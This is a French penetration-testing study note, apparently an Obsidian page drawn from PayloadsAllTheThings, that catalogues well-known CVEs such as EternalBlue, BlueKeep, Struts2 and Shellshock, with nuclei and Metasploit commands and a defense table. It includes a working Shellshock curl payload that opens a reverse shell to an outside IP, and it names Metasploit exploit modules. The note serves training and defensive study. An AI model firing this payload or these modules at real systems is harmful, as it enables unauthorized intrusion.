

# 📦 CVE Exploits

> [!info] **En 1 phrase**
> CVE Exploits = catalogue des **vulnérabilités et exploits publics majeurs** (CVE, PoC, templates) à croiser avec les **versions détectées** de la cible pour convertir une reconnaissance en compromission.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Démarche CVE hunting**
> 1. Identifier précisément **produit + version** de la cible.
> 2. Corréler avec les bases CVE (CVE Details, Trickest, NVD).
> 3. Récupérer le **PoC** et l'adapter à la cible.
> 4. Passer par les **frameworks** (nuclei, Metasploit) pour industrialiser.

---

## 🗂️ Ce que contient la source

| Élément | Détail |
|---|---|
| **Gros CVEs (15 ans)** | EternalBlue, Struts2, Drupalgeddon 2, BlueKeep, Citrix ADC, Heartbleed, Shellshock |
| **Affected products** | Listes de versions pour vérifier le patch level de la cible |
| **Exploits/PoC** | Commandes et payloads prêts à l'emploi |
| **Références** | Billets d'analyse, advisories, bases CVE |

---

## 🛠️ Outils & frameworks

```bash
# Trickest CVE Repository — collection automatisée de CVEs + PoC
https://github.com/trickest/cve

# Nuclei Templates — templates communautaires pour l'engine nuclei
nuclei -u https://target -t cves/
nuclei -u https://target -tags cve
nuclei -u https://target -id CVE-2019-19781

# Metasploit Framework — modules d'exploitation
msfconsole
search type:exploit cve:2019 cve:2024

# CVE Details — datasource de vulnérabilités
https://www.cvedetails.com
```

---

## 💣 Les gros CVEs — checklist

### Windows / SMB / RDP

| CVE | Nom | Cible | Impact |
|---|---|---|---|
| CVE-2017-0144 | EternalBlue | SMBv1 (Win 7, 8.1, Server 2008-2016, Win10 1511/1607...) | RCE wormable → WannaCry |
| CVE-2019-0708 | BlueKeep | RDP (pre-auth) | RCE sans interaction |

### Web / App servers

| CVE | Nom | Cible | Impact |
|---|---|---|---|
| CVE-2017-5638 | Apache Struts 2 | Header `Content-Type` | RCE |
| CVE-2018-7600 | Drupalgeddon 2 | Drupal 7.x/8.x | RCE, compromission totale |
| CVE-2019-19781 | Citrix ADC/NetScaler | ADC/Gateway 13.0, 12.1, 12.0, 11.1, 10.5 | RCE unauth |

### Crypto / Shell

| CVE | Nom | Cible | Impact |
|---|---|---|---|
| CVE-2014-0160 | Heartbleed | OpenSSL | Vol de données en mémoire (clés privées, sessions) |
| CVE-2014-6271 | Shellshock | Bash (services qui l'utilisent) | Exécution de commandes |

---

## 🧪 Exemples de PoC

```bash
# Shellshock — User-Agent exploitant Bash
curl --silent -k \
  -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.2/4444 0>&1" \
  "https://10.0.0.1/cgi-bin/admin.cgi"
```

```text
# Heartbleed — dump mémoire TLS (masses de clés privées, cookies, sessions)
# Outils : heartbleeder / metasploit auxiliary/scanner/ssl/openssl_heartbleed

# EternalBlue — exploit SMBv1
# Modules Metasploit : exploit/windows/smb/ms17_010_eternalblue
# RCE via SMB version 1, packets spéciaux

# Struts2 CVE-2017-5638 — injection dans le Content-Type header
# Drupalgeddon 2 CVE-2018-7600 — multiple vecteurs RCE Drupal
```

---

## 🔍 Détection & Défense

| Mesure | Détail |
|---|---|
| **Gestion des versions** | Inventaire des produits + versions exposés (scan de ports, banners) |
| **Patch management** | Appliquer les correctifs dès la publication, priorité aux CVE avec PoC public |
| **Durcissement** | Désactiver les protocoles obsolètes (SMBv1, telnet), limiter les surfaces exposées |
| **Scan CVE** | Templates nuclei `cves/`, Metasploit, scanners de vulns (Nessus/OpenVAS) |
| **Surveillance** | Veille CVE (CVE Details, advisories vendors), corrélation avec le parc |
| **Segmentation** | RDP/SMB/ADC exposés = réduire la surface, mettre derrière VPN |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Vérifier la version avant tout**
> La version exacte détermine la vulnérabilité. CVE-2019-19781 ne touche que les builds listés — ne pas lancer un exploit à l'aveugle sans confirmation du patch level.

> [!warning] ⚠️ **Pièges**
> - Un **PoC public** n'est pas toujours stable : tester en environnement contrôlé, adapter les chemins/ports.
> - Les **templates nuclei** détectent la vulnérabilité mais **pas toujours** l'exploitation — distinguer détection et prise de contrôle.
> - Heartbleed **ne fonctionne que si le serveur utilise une version OpenSSL vulnérable** (1.0.1 - 1.0.1f) — vérifier le TLS/version d'abord.
> - Shellshock nécessite que le **service utilise réellement Bash** (CGI, dhclient...) — un header malin ne suffit pas.
> - Les CVEs récents (post-2020) ont souvent des **conditions préalables** (authz, config) — lire l'advisory complet avant de conclure.

---

## 🔗 Liens

- [[02 - Scan & Énumération|🔎 Scan]]
- [[Insecure Management Interface|🛠️ Insecure Management Interface]]
- [[Denial of Service|💥 DoS]]
- → [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — CVE Exploits](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/README.md)
